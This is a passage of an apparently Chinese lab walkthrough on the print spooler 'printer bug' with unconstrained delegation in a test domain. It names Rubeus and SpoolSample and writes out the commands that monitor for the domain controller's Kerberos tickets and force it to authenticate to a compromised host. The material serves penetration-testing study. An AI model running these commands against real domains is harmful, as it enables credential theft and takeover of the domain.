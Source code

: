 1、Administrator权限监听  
  
  
2、打印机服务spooler开启（默认开启）  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7M3uic8XOX5gMHgGOnx15QHWF6hmZ90HHJDflf4TKhmaIeCer2IfRkdQ/640?wx_fmt=png&from=appmsg "")  
  
  
这里我们使用内网域-打印机漏洞环境  
  
  
首先设置机器账户和主机账户的委派  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7TEtxaaYzc4lIQmict9tUf18wPicFFgx8qyCf1IHFwtRPZicU7oJW6ayIA/640?wx_fmt=png&from=appmsg "")  
  
  
上线web主机，上线管理员＋域用户，提权就不演示了，土豆家族  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7sia5bziaPBV66RrjV7k2G2ptDGGxYdAkA5HlPxXCz9OwsJ2Olv4TzSoQ/640?wx_fmt=png&from=appmsg "")  
  
  
把Rubeus和SpoolSample工具上传  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU743LSf9PGoSzeIGicBoribbLSsceRPKBO6Zusuw8Pmibia3TyP6E0IibMBvg/640?wx_fmt=png&from=appmsg "")  
  
  
利用过程：  
  
  
1、监听来自DC的请求数据并保存文件  
  
  
shell Rubeus.exe monitor /interval:2 /filteruser:dc$ >hash.txt  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU73NqickYDA5RiaGJvK3NHrEPLicHszqjBib4LAgzTyhXwpaicBqb13wYf2Gg/640?wx_fmt=png&from=appmsg "")  
  
  
注意此处监听命令要以Administrator的权限去执行，不能以域用户的命令执行。否则产生的hash.txt中会有如下报错：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7YwWN7r7mnibgc6beutibghftVcfZmq1vjDhzwZ3SlNjXP7aXbaNf4Lgg/640?wx_fmt=png&from=appmsg "")  
  
  
正确如下：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU75CUu9d6LWXFop8v6cj98EVAHSdkwRotibwqGtw2xgvgkNfZbv8ZLONQ/640?wx_fmt=png&from=appmsg "")  
  
  
由于是监听状态，因此hash.txt为0b  
  
  
域用户运行SpoolSample强制让DC请求  
  
  
shell SpoolSample.exe dc web2016  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7ja99w2lmianAx6cjczlsiajXFeBuYYAHYIackRNaWicia1Maem27HmSjzw/640?wx_fmt=png&from=appmsg "")  
  
  